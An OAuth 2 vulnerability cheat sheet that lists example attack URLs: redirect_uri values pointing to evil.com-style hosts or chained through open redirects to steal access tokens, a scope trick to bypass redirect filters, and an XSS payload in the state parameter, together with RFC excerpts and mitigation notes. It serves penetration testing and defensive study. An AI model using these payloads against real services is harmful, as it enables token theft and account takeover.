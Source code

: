 # OAuth
OAuth

# OAuth 2 - Common vulnerabilities

## Grabbing OAuth Token via redirect_uri
Redirect to a controlled domain to get the access token
```
https://www.example.com/signin/authorize?[...]&redirect_uri=https://demo.example.com/loginsuccessful
https://www.example.com/signin/authorize?[...]&redirect_uri=https://localhost.evil.com
```

Redirect to an accepted Open URL in to get the access token
```
https://www.example.com/oauth20_authorize.srf?[...]&redirect_uri=https://accounts.google.com/BackToAuthSubTarget?next=https://evil.com
https://www.example.com/oauth2/authorize?[...]&redirect_uri=https%3A%2F%2Fapps.facebook.com%2Fattacker%2F
```
OAuth implementations should never whitelist entire domains, only a few URLs so that “redirect_uri” can’t be pointed to an Open Redirect.


Sometimes you need to change the scope to an invalid one to bypass a filter on redirect_uri:
```
https://www.example.com/admin/oauth/authorize?[...]&scope=a&redirect_uri=https://evil.com
```

## Executing XSS via redirect_uri
```
https://example.com/oauth/v1/authorize?[...]&redirect_uri=data%3Atext%2Fhtml%2Ca&state=<script>alert('XSS')</script>
```

## OAuth private key disclosure
Some Android/iOS app can be decompiled and the OAuth Private key can be accessed.

## Authorization Code Rule Violation
```
The client MUST NOT use the authorization code  more than once.  
If an authorization code is used more than once, the authorization server MUST deny the request 
and SHOULD revoke (when possible) all tokens previously issued based on that authorization code.
```

## Cross-Site Request Forgery
Applications that do not check for a valid CSRF token in the OAuth callback are vulnerable. This can be exploited by initializing the OAuth flow and intercepting the callback (https://example.com/callback?code=AUTHORIZATION_CODE). This URL can be used in CSRF attacks. 
```
The client MUST implement CSRF protection for its redirection URI. This is typically accomplished by requiring any request sent to the redirection URI endpoint to include a value that binds the request to the user-agent's authenticated state. The client SHOULD utilize the "state" request parameter to deliver this value to the authorization server when making an authorization request.
```

## Thanks to
* http://blog.intothesymmetry.com/2016/11/all-your-paypal-tokens-belong-to-me.html
* http://homakov.blogspot.ch/2014/02/how-i-hacked-github-again.html
* http://intothesymmetry.blogspot.ch/2014/04/oauth-2-how-i-have-hacked-facebook.html
* http://andrisatteka.blogspot.ch/2014/09/how-microsoft-is-giving-your-data-to.html
